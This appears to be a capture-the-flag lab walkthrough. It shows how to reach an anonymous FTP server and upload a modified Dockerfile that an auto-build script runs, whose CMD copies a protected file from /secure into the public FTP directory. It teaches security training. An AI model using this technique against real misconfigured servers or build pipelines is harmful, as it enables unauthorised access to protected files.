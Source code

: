 ## Machines on network:

172\.28.1.6 - **FTP server**

172\.28.1.5 - **Kali Linux container**

## Overview of Challenge:

This challenge will involve using an improperly secured FTP server to access and modify a Dockerfile that is set up to be built automatically.

**FTP (File Transfer Protocol)** is used for the transfer of files across a network. You’ll be connecting to an FTP server configured to allow anonymous access, which means you can log in as the user 'anonymous' and typically no password is required.  
  
**Docker:** A platform used to create, deploy, and run applications by using containers. Containers allow a developer to package up an application with all of the parts it needs, such as libraries and other dependencies, and ship it all out as one package. Dockerfiles are used to define these containers and how they should be built. You will be editing a Dockerfile to gain unintended access to a system.

Walkthrough:

## 1) Accessing FTP

Once you have access to the environment you can confirm that the FTP server is running using the following command. 

`nmap 172.28.1.6`

nmap is a tool commonly used by cybersecurity professionals in many roles to scan devices on a network. The output should indicate that port 21 is open, which indicates that ftp is running on this server. to connect using ftp on port 21 use the following command.

`ftp 172.28.1.6 21`

When you are prompted for a username, type "anonymous" (without quotation marks) and for the password do not enter anything and press enter. This allows you access to the FTP server. In the real world anonymous login is incredibly insecure, but someone setting up an FTP server without adequate care can accidentally enable it.

## 2) Exploring the FTP server

To discover what we have access to on the ftp server, use the ls or 'list' command

`ls`

This should provide the following output:
```
\-rw-r--r--             1 0              0              60 May 08 21:40 note.txt 
\-rw-r--r--             1 0              0               29 May 08 21:41 test.txt  
drwxrwxrwx    1 101      103                             4096 May 08 21:41 upload  
```

To pull the two txt files to examine them on our local machine use the following two commands:

`get note.txt`

`get test.txt`

We can then exit the FTP interface using the following command:

`exit`

To examine the contents of the test.txt file we can use the cat command:

`cat test.txt`

The output should be the following:

`Hello from dummy Dockerfile!`

Using the cat command again with the note.txt file:

`cat note.txt`

We get the following hint:

`TODO: remove auto-build script for any Dockerfile in upload`
  
This hint indicates that if we place any file named "Dockerfile" in the upload folder on the FTP server it will automatically be built. Connect to the ftp server again using the same command:  
  
`ftp 172.28.1.6 21`

After logging in anonymously again use the cd command to enter the upload directory:

`cd upload`

If we use the 'ls' command again we can see the following output:

`\-rw-r--r--    1 0        0             163 May 08 21:40 Dockerfile_copy`  
  
Let's pull the Dockerfile_copy using the get command:

`get Dockerfile_copy`

And exit to examine it locally:

`exit`

Create a copy of the file to edit using the cp or copy command:

`cp Dockerfile_copy Dockerfile`

We will now use the vim editor to examine and edit this file. Vim is a very powerful text editor with many shortcuts and features. New users often have difficulty using vim but for now the following simple commands will be sufficient for this challenge:

- Press the "i" button to enter insert mode
  - This mode is the most similar to traditional text editors and will allow you to type and delete characters.
- Use arrow keys to move the cursor (mouse buttons will not work)
- Use : to enter command mode
  - :wq! will cause the current file to be saved and quit

Open the file in vim to edit using the following command:

`vim Dockerfile`

Using the vim commands previously given, we will edit the Docker file. The Dockerfile should initially read:
```
\# Use a base image

FROM alpine:latest

\# Define volumes

VOLUME /ftp
VOLUME /secure

\# Run a simple command`

CMD echo 'Hello from dummy Dockerfile!' > /ftp/test.txt
```
We will explain this Dockerfile line by line. Dockerfiles are essentially instructions on how to set up an environment.

All lines beginning with # are comments intended to clarify the purpose of the lines below them.

`FROM alpine:latest`

This line indicates the image that the docker container will be based on. There are many pre-built container images that are often used as starting points for other containers. There is not much reason to start from scratch when you can use another container image as a starting point.

`VOLUME /ftp`

`VOLUME /secure` 

These lines give mount points for volumes when the container is run. These volumes names give us hints that the container likely will be run with access to these two directories.

`CMD echo 'Hello from dummy Dockerfile!' > /ftp/test.txt`

This line tells the container to create a textfile in /ftp when the container is run. This is the source of the test note we saw earlier.

## 3) Accessing /secure

There are many ways that the Dockerfile can be manipulated to give us the contents of the /secure directory. Without this walkthrough, you would have to run commands like the following in the Dockerfile to explore the directory and identify any items inside:

`CMD ls /secure > /ftp/ls.txt`

This command would run the ls command inside of the /secure directory and put the output in a text file in /ftp where we could log in and access it. Since we already know the contents of the directory though, we simply change the CMD line to the following:

`CMD cat /secure/flag.sh > /ftp/flag.sh`

This will output the contents of flag.sh into a new file in ftp. Save and exit the file in vim and log in to the FTP server. Navigate to the upload folder and use the following command to upload the Dockerfile:

`put Dockerfile`

This will upload the Dockerfile. It may take some time for the Dockerfile to be run as the directory is checked every 60 seconds. Use the ls command to check the upload directory until the Dockerfile dissappears. Then navigate out of the upload directory using the following command:

`cd ..`

Now you should see the flag.sh file. Use the get command to download it and exit FTP. You can now complete the challenge by running the following command:

`bash flag.sh`

You should see the challenge marked as completed in the WebUI. You can now exit the challenge using the following command on the Kali container:

`exit`
